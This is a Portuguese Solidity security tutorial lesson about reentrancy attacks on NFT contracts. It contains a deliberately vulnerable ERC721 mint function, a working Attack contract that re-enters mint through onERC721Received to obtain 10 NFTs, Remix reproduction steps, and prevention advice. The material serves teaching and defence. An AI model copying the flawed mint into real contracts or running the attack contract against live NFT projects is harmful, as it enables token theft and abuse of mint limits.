 # Segurança do Contrato Solidity: S16. Ataque de Reentrada em NFT

Recentemente, tenho revisitado o aprendizado de Solidity para reforçar os detalhes e estou escrevendo um "Guia de Iniciação Rápida para Solidity" para iniciantes (os especialistas em programação podem procurar outros tutoriais). Será atualizado semanalmente com 1-3 palestras.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo do WhatsApp](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site oficial wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTF-Solidity)

-----

Nesta palestra, vamos falar sobre a vulnerabilidade de ataque de reentrada em contratos NFT e atacar um contrato NFT com falhas para criar 10 NFTs.

## Risco de Reentrada em NFT

Já discutimos em [S01 Ataque de Reentrada](../S01_ReentrancyAttack/readme_pt-br.md) que o ataque de reentrada é um dos ataques mais comuns nos contratos inteligentes, onde um invasor, por meio de uma vulnerabilidade no contrato (como a função `fallback`), faz chamadas repetidas ao contrato para transferir ativos ou criar muitas tokens. Quando se trata de transferir NFTs, eles não acionam as funções `fallback` ou `receive` dos contratos. Por que ainda há risco de reentrada?

Isso ocorre porque os padrões de NFT (ERC721/ERC1155) adicionaram uma verificação segura para garantir que os ativos de NFT não sejam acidentalmente enviados para um endereço inválido. Quando um NFT é transferido para um contrato, ele chama a função de verificação correspondente desse contrato, garantindo que esteja pronto para receber o ativo de NFT. Por exemplo, a função `safeTransferFrom()` do `ERC721` chama a função `onERC721Received()` do endereço de destino, o que pode ser explorado por um hacker para lançar um ataque.

Aqui estão as funções do `ERC721` e `ERC1155` que têm potencial para risco de reentrada:

![](./img/S16-1.png)

## Exemplo de Vulnerabilidade

Vamos analisar um exemplo de contrato NFT com vulnerabilidade de reentrada. Este contrato `ERC721` permite a cada endereço criar um NFT gratuitamente, mas um ataque de reentrada pode permitir a criação de vários NFTs de uma só vez.

### Contrato com Vulnerabilidade

O contrato `NFTReentrancy` herda o contrato `ERC721` e possui 2 variáveis de estado principais: `totalSupply`, que rastreia o total de NFTs criados, e `mintedAddress`, que armazena os endereços que já criaram NFTs para evitar múltiplas criações. Ele possui 2 funções principais:
- Construtor: Inicializa o nome e o símbolo da coleção de NFTs para o `ERC721`.
- `mint()`: Função de criação, onde cada usuário pode criar um NFT gratuitamente. **Atenção: esta função apresenta uma vulnerabilidade de reentrada!**

```solidity
contract NFTReentrancy is ERC721 {
    uint256 public totalSupply;
    mapping(address => bool) public mintedAddress;
    
    // Construtor, inicializa o nome e símbolo da coleção NFT
    constructor() ERC721("Reentry NFT", "ReNFT"){}

    // Função de criação de NFT, cada usuário só pode criar 1 NFT
    // Tem vulnerabilidade de reentrada
    function mint() payable external {
        // Verifica se o endereço já criou um NFT
        require(mintedAddress[msg.sender] == false);
        // Incrementa o total de NFTs
        totalSupply++;
        // Cria o NFT
        _safeMint(msg.sender, totalSupply);
        // Registra o endereço que criou o NFT
        mintedAddress[msg.sender] = true;
    }
}
```

### Contrato de Ataque

O contrato `Attack` herda o contrato `IERC721Receiver` e possui 1 variável de estado `nft` que armazena o endereço do contrato NFT com vulnerabilidade. Ele possui 3 funções:
- Construtor: Inicializa o endereço do contrato NFT com vulnerabilidade.
- `attack()`: Função de ataque, que chama a função `mint()` do contrato NFT para iniciar o ataque.
- `onERC721Received()`: Função de retorno de chamada do ERC721 com código malicioso incorporado, que chama repetidamente a função `mint()` e cria 10 NFTs.

```solidity
contract Attack is IERC721Receiver{
    NFTReentrancy public nft; // Endereço do contrato NFT com vulnerabilidade

    // Inicializa o endereço do contrato NFT
    constructor(NFTReentrancy _nftAddr) {
        nft = _nftAddr;
    }
    
    // Função de ataque, inicia o ataque
    function attack() external {
        nft.mint();
    }

    // Função de retorno de chamada do ERC721, que chama a função mint repetidamente e cria 10 NFTs
    function onERC721Received(address, address, uint256, bytes memory) public virtual override returns (bytes4) {
        if(nft.balanceOf(address(this)) < 10){
            nft.mint();
        }
        return this.onERC721Received.selector;
    }
}
```

## Replicação no Remix

1. Implante o contrato `NFTReentrancy`.
2. Implante o contrato `Attack`, inserindo o endereço do contrato `NFTReentrancy` como parâmetro.
3. Chame a função `attack()` do contrato `Attack` para iniciar o ataque.
4. Chame a função `balanceOf()` do contrato `NFTReentrancy` para consultar a posse do contrato `Attack`. Você verá que ele possui 10 NFTs, com o ataque bem-sucedido.

![](./img/S16-2.png)

## Métodos de Prevenção

Existem duas maneiras principais de prevenir ataques de reentrada: o modelo de Verificação-Impacto-Interação (checks-effect-interaction) e o uso de bloqueios de reentrada.

1. Modelo de Verificação-Impacto-Interação: Este modelo enfatiza que ao escrever funções, deve-se primeiro verificar se as variáveis de estado estão de acordo com os requisitos, em seguida, atualizá-las (por exemplo, saldo), e por último interagir com outros contratos. Podemos corrigir a função `mint()` vulnerável usando este modelo.

2. Bloqueio de Reentrada: É um modificador utilizado para evitar funções de reentrada. Recomendamos o uso do [ReentrancyGuard](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard), fornecido pela OpenZeppelin.

## Conclusão

Nesta palestra, abordamos a vulnerabilidade de ataques de reentrada em contratos NFT e realizamos um ataque bem-sucedido a um contrato NFT com falhas, criando 10 NFTs. Atualmente, existem duas maneiras principais de prevenir ataques de reentrada: o modelo de Verificação-Impacto-Interação e o uso de bloqueios de reentrada.

<!-- This file was translated using AI by repo_ai_translate. For more information, visit https://github.com/marcelojsilva/repo_ai_translate -->